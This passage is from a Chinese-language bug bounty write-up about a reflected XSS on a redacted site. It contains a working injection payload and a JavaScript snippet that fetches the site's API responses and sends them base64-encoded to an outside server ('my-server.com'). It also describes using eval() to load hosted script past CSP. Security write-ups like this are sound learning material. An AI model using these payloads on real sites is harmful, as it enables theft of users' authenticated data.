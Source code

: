 读取页面的源代码，因为页面有太多的 HTML 代码，但甚至在呈现页面之前就被重定向到根端点。把这一页交给 [Arjun](https://github.com/s0md3v/Arjun) 🏹用于查找任何错误消息或类似信息的隐藏参数。发现一个有效参数，该参数反映在`<script>`标签的字符串赋值中，即

> `*var foo = 'reflection'*`

这个反射也只有一个被阻塞的实体，即`“`双引号，随机地一些符号没有出现在响应中，否则没有阻塞任何`confirm()`或`eval()`或任何东西。我惊讶的同时也很惊讶！

我再次确认了基本注射:

> 有效载荷:`?foo='+alert()+'`
> 
> 体现:`var foo = ''+alert()+''`而美丽的警戒出现在█████'s 主域，这一刻是意料之外的，简直太神奇了！想象一下！

但是这一次，我不想只报道`alert(1)`🤧。在测试 API 的时候，我知道 API 调用只能在█████主域名下进行，不能在子域下进行。所以我想利用这个千载难逢的机会把事情升级。我在谷歌上搜索并阅读了许多报告，其中攻击者展示了 XSS 的影响升级。阅读这样的东西给了我跳出框框表演的好主意🤔。

# 想法是:

> *让我们调用 API，复制它们的响应，并将响应发送到我的个人服务器。听起来很简单，对吗？哈哈，没那么 easy🥴！*

# 🚀尝试 0x01:

由于我是一个熟悉开发的人，并且在项目开发期间有 JavaScript 的实际经验，所以很容易在我的脑海中找到逻辑，在代码中也是如此，但是我知道我只有很小的窗口可用，因为一旦页面加载，发生反射的页面将会重定向。同样，我使用了一些快速工作的逻辑，而不是使用 AJAX 的常规老方法，然后处理他们的响应成功错误和 bla bla👽。

我为实现我的想法而制作的 JavaScript 片段:

```
function fe(t) {
    fetch(t).then(t => t.text()).then(t => {
        fetch("https://my-server.com/log/?p=" + btoa(t))
    })
}
urls = ["https://█████.com/v1/api/.../...", 
        "https://█████.com/v2/api/.../...", 
        "https://█████.com/v3/api/.../...",
        ...
], urls.forEach(fe);
```

我想读两三遍会让你明白这里发生了什么。总之:我提到了一个函数`fe()`，它将向`GET`请求传递给该函数的参数值，在从服务器获得响应后，用响应体的 base64 编码值向`my-server.com`发出另一个`GET`请求。接下来是需要调用的`urls`列表，我们希望在完成这个列表后，调用`forEach()`，它将隐式地执行我们的循环，而不会显式地提到任何`for()`或`while()`循环🤖。

> **问题**:这段代码对于`GET`请求长度容量来说太长了

**解决方案**:我在我的服务器上托管了这段 JavaScript 代码，现在在注入点，我只需要调用这段 JavaScript 代码。简单？不完全是。因为我只能访问有限的 JavaScript 上下文，而且 CSP 也已经实现。

# 🚀尝试 0x02:

我可以访问`eval()`，所以让我们使用`eval()`添加我们托管的 JavaScript。我阅读了很多实现这一点的方法，但是它们都没有要求的那么快，因为发生注入的页面在页面加载后会重定向到根端点。所以我参考了 Mozilla 的 [JavaScript 文档。这有助于我使用`async`和`await`获得`eval()ing`我的命令所需的速度，这将获得我的托管脚本并执行它💀。](https://developer.mozilla.org/en-US/docs/Web/JavaScript/)
